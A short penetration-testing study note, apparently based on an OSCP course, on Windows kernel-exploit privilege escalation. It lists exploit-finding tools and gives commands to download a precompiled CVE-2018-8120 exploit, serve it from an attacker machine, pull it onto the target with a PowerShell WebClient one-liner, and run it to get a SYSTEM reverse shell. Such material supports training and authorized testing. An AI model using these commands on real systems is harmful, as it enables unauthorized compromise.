

1. Kernel Exploits
• Kernels are the core of any operating system. Think of it as a layer between application software and the actual computer hardware.
• The kernel has complete control over the operating system.
• Exploiting a kernel vulnerability can result in execution as the SYSTEM user.
Finding Kernel ExploitsFinding and using kernel exploits is usually a simple process:
1) Enumerate Windows version / patch level (systeminfo command)
2) Find matching exploits (Google, ExploitDB, GitHub).
▪ Windows Exploit Suggester:
https://github.com/bitsadmin/wesng ▪ Watson:
https://github.com/rasta-mouse/Watson ▪
Windows Exploit Suggester(wes.py):
https://github.com/bitsadmin/wesng ▪ Precompiled Kernel Exploits:
https://github.com/SecWiki/windows-kernel-exploits ▪ GitHub
▪ Google
▪ ExploitDB
3) Compile and run.
Beware though, as Kernel exploits can often be unstable and may be one-shot or cause a system crash.
Tools
•
Windows Exploit Suggester:
https://github.com/bitsadmin/wesng 1) Copy the output of the systeminfo command.
paste in a file of the attacker machine
root@kali:/# mousepad systeminfo.txt #paste here the output of the systeminfo command
2) Find Exploit with
Windows Exploit Suggester(wes.py) root@kali:/# python3 /home/kali/bin/wesng/wes.py /home/kali/Desktop/systeminfo.txt -i 'Elevation of Privilege' --exploits-only
2.1) Cross-Reference with Precompiled Kernel Exploits:
https://github.com/SecWiki/windows-kernel-exploits If we do not find any matches on SecWiki, we have to go on Exploit DB
2.2) Download the compiled exploit
In the example CVE-2018-8210
example: https://github.com/SecWiki/windows-kernel-exploits/blob/master/CVE-2018-8120/x64.exe root@kali:/# wget https://github.com/SecWiki/windows-kernel-exploits/raw/master/CVE-2018-8120/x64.exe
root@kali:/# python -m SimpleHTTPServer 80
3) Retrieve and run the exploit
PS> (New-Object System.Net.WebClient).downloadfile('http://192.168.147.139/x64.exe','C:\Users\ckent\Desktop\x64.exe');
PS> .\x64 <command-to-exexute> #the command to execute can be a reverse shell (the one that we have created with msfvenom) Now we should receive a SYSTEM shell on the Attacker listener
•
Watson:
https://github.com/rasta-mouse/Watson useful tool for the more recent Windows 10, always for enumerate the possibles kernel exploits
Bibliography:
• “Windows Privilege Escalation for OSCP & Beyond!”, Tib3rius